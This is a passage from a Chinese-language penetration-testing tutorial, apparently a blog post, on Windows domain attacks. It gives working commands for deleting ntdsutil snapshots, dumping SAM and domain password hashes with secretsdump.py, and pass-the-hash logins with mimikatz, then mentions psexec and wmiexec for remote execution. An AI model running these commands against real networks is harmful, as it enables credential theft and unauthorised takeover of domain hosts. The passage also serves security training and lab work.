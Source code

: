 ![](https://img2020.cnblogs.com/blog/1561366/202008/1561366-20200823212336212-1217737708.png)  
![](https://img2020.cnblogs.com/blog/1561366/202008/1561366-20200823212350624-1167474990.png)

最后记得卸载删除快照：

```
ntdsutil snapshot "unmount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
ntdsutil snapshot "delete  {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit


```

#### 3.3 secretsdump 脚本直接导出域 hash

为什么要再提一遍 secretsdump 呢，因为它可以直接导出，说白了，简单粗暴：

```
python secretsdump.py rabbitmask:123456@192.168.15.181


```

首先它会导出本地 SAM 中的 hash，然后是所有域内用户的 IP，全部获取成功

### 0x04 哈希传递攻击 PTH

#### 4.1 工作组环境

当我们获得了一台主机的 NTLM 哈希值，我们可以使用 mimikatz 对其进行哈希传递攻击。执行完命令后，会弹出 cmd 窗口。

```
#使用administrator用户的NTLM哈希值进行攻击
sekurlsa::pth /user:administrator /domain:192.168.10.15 /ntlm:329153f560eb329c0e1deea55e88a1e9


```

```
#使用xie用户的NTLM哈希值进行攻击
sekurlsa::pth /user:xie /domain:192.168.10.15 /ntlm:329153f560eb329c0e1deea55e88a1e9


```

在弹出的 cmd 窗口，我们直接可以连接该主机，并且查看该主机下的文件夹。

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119154646838-949025649.png)

或者可以直接将该主机的 C 盘映射到本地的 K 盘。  
![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119154740616-176611090.png)

注：只能在 mimikatz 弹出的 cmd 窗口才可以执行这些操作，注入成功后，可以使用 psexec、wmic、wmiexec 等实现远程执行命令。

#### 4.2 域环境

在域环境中，当我们获得了域内用户的 NTLM 哈希值，我们可以使用域内的一台主机用 mimikatz 对域控进行哈希传递攻击。执行完命令后，会弹出 cmd 窗口。前提是我们必须拥有域内任意一台主机的本地 administrator 权限和获得了域用户的 NTLM 哈希值
